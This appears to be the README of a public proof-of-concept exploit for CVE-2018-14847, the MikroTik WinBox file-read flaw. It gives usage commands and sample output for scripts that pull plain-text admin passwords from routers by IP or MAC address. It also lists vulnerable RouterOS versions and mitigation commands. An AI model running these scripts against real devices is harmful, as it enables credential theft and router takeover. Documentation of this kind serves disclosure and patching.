 # WinboxExploit
This is a proof of concept of the critical WinBox vulnerability (CVE-2018-14847) which allows for arbitrary file read of plain text passwords.

The vulnerability has long since been fixed, so this project has ended and will not be supported or updated anymore. You can fork it and update it yourself instead.

## Blogpost
https://n0p.me/winbox-bug-dissection/

## Requirements
- Python 3+

This script will NOT run with Python 2.x or lower.

## How To Use
The script is simple used with simple arguments in the commandline.

#### WinBox (TCP/IP)
Exploit the vulnerability and read the password.
```
python3 WinboxExploit.py <IP-ADDRESS> [PORT]
```
Example:
```
$ python3 WinboxExploit.py 172.17.17.17
Connected to 172.17.17.17:8291
Exploit successful
User: admin
Pass: Th3P4ssWord
```

#### MAC server WinBox (Layer 2)  
You can extract files even if the device doesn't have an IP address.

Simple discovery check for locally connected Mikrotik devices.
```
python3 MACServerDiscover.py
```
Example:
```
$ python3 MACServerDiscover.py
Looking for Mikrotik devices (MAC servers)

    aa:bb:cc:dd:ee:ff 

    aa:bb:cc:dd:ee:aa
```

Exploit the vulnerability and read the password.
```
python3 MACServerExploit.py <MAC-ADDRESS>
```
Example:
```
$ python3 MACServerExploit.py aa:bb:cc:dd:ee:ff

User: admin
Pass: Th3P4ssWord
```

## Vulnerable Versions
All RouterOS versions from 2015-05-28 to 2018-04-20 are vulnerable to this exploit.

Mikrotik devices running RouterOS versions:

- Longterm: 6.30.1 - 6.40.7
- Stable: 6.29 - 6.42
- Beta: 6.29rc1 - 6.43rc3

For more information see: https://blog.mikrotik.com/security/winbox-vulnerability.html

## Mitigation Techniques
- Upgrade the router to a RouterOS version that include the fix. 
- Disable the WinBox service on the router.
- You can restricct access to the WinBox service to specific IP-addresses wtih the following:
```
/ip service set winbox address=10.0.0.0/8,172.16.0.0/12,192.168.0.0/16
```
- You may use some Filter Rules (ACL) to deny external access to the WinBox service:
```
/ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```
- Limiting access to the mac-winbox service can be done by specifing allowed interfaces:
```
/tool mac-server mac-winbox
```

## Copyright
 - Sponsered by Iran's CERTCC(https://certcc.ir). All rights resereved.
